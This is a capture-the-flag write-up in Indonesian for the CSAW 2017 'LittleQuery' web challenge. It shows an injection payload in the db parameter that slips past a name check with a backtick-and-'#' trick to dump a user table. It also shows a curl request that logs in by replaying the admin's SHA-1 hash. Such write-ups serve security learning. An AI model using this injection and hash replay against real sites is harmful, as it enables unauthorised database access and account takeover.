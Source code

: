 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-08-21
date: 2017-08-21
title: Writeup CSAW 2017 LittleQuery - 200
tags: beefest
mathjax: false
imagefeature: 
description: Writeup CSAW 2017 LittleQuery - 200
category: Web Exploitation
chart: null
---
```



## Problems

```
LittleQuery
I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io
```


## POC

Di source code pada halaman index kita bisa menemukan ada source yang di comment

```html

<!--
<div class="col-md-4">
    <h2>For Developers</h2>
    <p>Check out our <a href="/api/db_explore.php">API</a></p>
</div>
-->
```


kita bisa melakukan explore terhadap database mereka menggunakan api yang tersedia,
ada 2 mode untuk mengexplor databasenya yaitu `mode={schema|preview}` schema untuk melihat schema dari
table atau database.

so kita gunakan schema `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema` untuk melakukan
list available databases ditemukan ada database namanya `littlequery`, kemudian list table apa saja yang 
ada pada database littlequery `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery`
so kita dapat ada table `user`

```javascript

{
    tables: [
        "user"
    ]
}
```

kemudian untuk melakukan list kolom pada table user gunakan `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user`
dan di dapatkan

```javascript

{
    columns: {
        uid: "int(11)",
        username: "varchar(128)",
        password: "varchar(40)"
    }
}
```

untuk melakukan dump datanya kita bisa gunakan mode preview ke `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user`
tapi ternyata ada filter yang melarang untuk melakukan preview terhadap database `littlequery`

setelah mencoba menlakukan injek terhadap parameter db dan table kita bisa memanipulasi parameter db sehingga
tidak match dengan == "littlequery" kita bisa menggunakan # sebagai comment

illustrasi kodingan yang digunakan adalah sebagai berikut

```php

$db = addslashes($_GET['db']);
$table = addslashes($_GET['table']);

if($db == "littlequery"){
    die("Deny");
}

$query = "SELECT * from `".$db."`.".$table."`";
```

kita bisa melakukan bypass dengan menggunakan payload sebagai berikut `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=foobar`
$query akan jadi seperti berikut 

```php

SELECT * from `littlequery`.`user`#`foobar`

//query yang tereksekusi adalah => SELECT * from `littlequery`.`user`

$db = "littlequery`.`user`#" // jadi kita gak kena deny lagi
```

didapatkan user dan password yang di hash 

```javascript

[
    {
        uid: "1",
        username: "admin",
        password: "5896e92d38ee883cc09ad6f88df4934f6b074cf8"
    }
]
```

kita tidak harus mencari plain-text dari SHA-1 tersebut karena website tersebut menerima login dengan
hashed password bukan dengan plaintext password diketahui dari script yang ada di login.js

```javascript

$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```

kita bisa kirim POST data dengan curl `curl -X POST http://littlequery.chal.csaw.io/login.php --data "username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8" -v`
ambil cookie yang di kirimkan response `Set-Cookie: PHPSESSID=6cidmmh[...]cd63qr9nhgb7; path=/` kemudian
set cookie ke browser kalian untuk berpindah ke state login dan bisa akses ke `/query.php`


di temukan flag `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

![Flag](https://cdn.pbrd.co/images/GKSIR6m.png)